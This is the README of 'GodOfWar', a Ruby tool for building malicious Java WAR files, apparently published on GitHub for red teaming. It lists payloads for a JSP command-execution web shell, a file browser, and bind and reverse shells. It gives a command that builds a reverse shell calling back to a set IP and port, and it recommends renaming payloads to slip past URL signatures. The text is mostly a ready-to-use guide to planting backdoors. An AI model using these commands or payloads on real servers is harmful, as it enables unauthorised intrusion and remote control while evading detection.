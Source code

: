 # GodOfWar - Malicious Java WAR builder
A command-line tool to generate war payloads for penetration testing / red teaming purposes, written in ruby.

```
                              .
                             hhh              
                            hhhhhhh           
                           hhhhhhhh        
                          hhhhhhhh+        
                         hhhhhhhh'           
                        hhhhhhhh.            
                       hhhhhhhhh             
        ..--          hhhhhhhhh             
      -sh/..  +.     hhhhhhhhh:              
      /+/:-/+ss-`   hhhhhhhhhh:               
      /MMM`ss:``.`  hhhhhhhhhh:              
     .MMMMM:        hhhhhhhhhhhhhhhhh:       
     MMMMMMM:        hhhhhhhhhhhhhhhh:      
     MMMMMMMMMMMMM:  hhhhhhhhhhhhhhhh`       
    :NNm:odh/oMMMNs. hhhhhhhhhhhhhhhh`       
   ./:`smdo+oos++-    `++sNMMMMMNmh+         
      .-y-`     ` :.  /   -dmddhhhhh-        
       o/-     `//o/ /M/   `+hhhhhhhh`       
      /o     :yosmy   +y  .`.hhhhhhhho       
      +`     /../.:      `.y::hhhhhs:`       
       `      `+yys`   .sy` /oohhy:          
                `/:s/-``     `.hh`           
               ..`     `       y+            
            .hNNmmNdymmmmds`   :-            
            hs.   ``..    :y-  `             
               -hhmNmddm+   .                
               `NMMMMMMm                     
                ` `oMMy                      
            `.     /Md-      :o  
           MMMMMMMMMMMMMMMMMMM:             
            MMMMMMMMMMMMMMMMMM:              
             MMMMMMMMMMMMMMMMM               
              MMMMMMMMMMMMMMM.               
              `MMMMMMMMMMMMM.                 
                :sNMMMNMdo:                  
                  ``+m:/-                    
                     `                                  
GodOfWar - Malicious Java WAR builder.
```

## Features

- Preexisting payloads. (try `-l/--list`)
    - cmd_get
    - filebrowser
    - bind_shell
    - reverse_shell
    - reverse_shell_ui 
- Configurable backdoor. (try `--host/-port`)
- Control over payload name. 
  - To avoid malicious name after deployment to bypass URL name signatures.

## Installation

```
$ gem install godofwar
```

## Usage
```
$ godofwar -h 

Help menu:
   -p, --payload PAYLOAD            Generates war from one of the available payloads.
                                        (check -l/--list)
   -H, --host IP_ADDR               Local or Remote IP address for the chosen payload
                                        (used with -p/--payload)
   -P, --port PORT                  Local or Remote Port for the chosen payload
                                        (used with -p/--payload)
   -o, --output [FILE]              Output file and the deployment name.
                                        (default is the payload original name. check '-l/--list')
   -l, --list                       list all available payloads.
   -h, --help                       Show this help message.
```

### Example 

**List all payloads**
```
$ godofwar -l
├── cmd_get
│   └── Information:
│       ├── Description: Command execution via web interface
│       ├── OS:          any
│       ├── Settings:    {"false"=>"No Settings required!"}
│       ├── Usage:       http://host/cmd.jsp?cmd=whoami
│       ├── References:  ["https://github.com/danielmiessler/SecLists/tree/master/Payloads/laudanum-0.8/jsp"]
│       └── Local Path:  /var/lib/gems/2.5.0/gems/godofwar-1.0.1/payloads/cmd_get
├── filebrowser
│   └── Information:
│       ├── Description: Remote file browser, upload, download, unzip files and native command execution
│       ├── OS:          any
│       ├── Settings:    {"false"=>"No Settings required!"}
│       ├── Usage:       http://host/filebrowser.jsp
│       ├── References:  ["http://www.vonloesch.de/filebrowser.html"]
│       └── Local Path:  /var/lib/gems/2.5.0/gems/godofwar-1.0.1/payloads/filebrowser
├── bind_shell
│   └── Information:
│       ├── Description: TCP bind shell
│       ├── OS:          any
│       ├── Settings:    {"port"=>4444, "false"=>"No Settings required!"}
│       ├── Usage:       http://host/reverse-shell.jsp
│       ├── References:  ["Metasploit - msfvenom -p java/jsp_shell_bind_tcp"]
│       └── Local Path:  /var/lib/gems/2.5.0/gems/godofwar-1.0.1/payloads/bind_shell
├── reverse_shell_ui
│   └── Information:
│       ├── Description: TCP reverse shell with a HTML form to set LHOST and LPORT from browser.
│       ├── OS:          any
│       ├── Settings:    {"host"=>"attacker", "port"=>4444, "false"=>"No Settings required!"}
│       ├── Usage:       http://host/reverse_shell_ui.jsp
│       ├── References:  []
│       └── Local Path:  /var/lib/gems/2.5.0/gems/godofwar-1.0.1/payloads/reverse_shell_ui
├── reverse_shell
│   └── Information:
│       ├── Description: TCP reverse shell. LHOST and LPORT are hardcoded
│       ├── OS:          any
│       ├── Settings:    {"host"=>"attacker", "port"=>4444, "false"=>"No Settings required!"}
│       ├── Usage:       http://host/reverse_shell.jsp
│       ├── References:  []
│       └── Local Path:  /var/lib/gems/2.5.0/gems/godofwar-1.0.1/payloads/reverse_shell
```

**Generate payload with LHOST and LPORT**
```
godofwar -p reverse_shell -H 192.168.100.10  -P 9911 -o puppy
```
After deployment, you can visit your shell on (http://host:8080/puppy/puppy.jsp) 

## Contributing

Bug reports and pull requests are welcome on GitHub at https://github.com/[USERNAME]/godofwar.


## License

The gem is available as open source under the terms of the [MIT License](http://opensource.org/licenses/MIT).

